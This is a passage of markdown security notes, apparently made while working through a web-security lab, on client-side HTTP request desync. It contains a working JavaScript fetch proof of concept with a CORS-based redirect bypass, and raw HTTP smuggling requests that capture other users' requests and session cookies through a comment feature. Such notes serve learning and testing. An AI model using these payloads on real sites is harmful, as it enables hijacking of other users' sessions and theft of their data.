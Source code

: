 When you run this command, you should see two requests on the **Network** tab: one with the usual response, and another one with the response to the malicious prefix (in this case, a 404).

![](../../zzz_res/attachments/desync-PoC-console.png)

### Handling redirects

Requests to endpoints that trigger server-level redirects are a common vector for client-side desyncs. When building an exploit, this presents a minor obstacle because browsers will follow this redirect, breaking the attack sequence.

Fixed PoC (you won't be able to see the connection ID on the **Network** tab):
```js
fetch('https://vulnerable-website.com/redirect-me', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors', // intentionally trigger a CORS error, which prevents the browser from following the redirect
    credentials: 'include'
}).catch(() => {
    location = 'https://vulnerable-website.com/'
})
```

# Exploiting client-side desync vulnerabilities

Once you've found a suitable vector and confirmed that you can successfully cause the desync in a browser, you're ready to start looking for exploitable gadgets.
You can perform many of the server-side [HTTP & HTTP/2 Request Smuggling](HTTP%20Request%20Smuggling.md#Exploiting%20HTTP%20&%20HTTP/2%20Request%20Smuggling) attacks.

## Capturing other user' requests

Comment feature that can be used as a gadget:
```http
POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: ...
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

csrf=YllbKwgZvdOawykY3ZMDuq5D84JKTxXp&postId=9&name=foo&email=foo%40bar.lol&website=&comment=foobar
```

Same technique as [Capturing other user' requests using HTTP request smuggling](Exploiting%20HTTP%20Request%20Smuggling.md#Capturing%20other%20user'%20requests):
```http
POST / HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Content-Length: 612           // right length here
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy
Content-Type: application/x-www-form-urlencoded
Content-Length: 800          // capture length here
```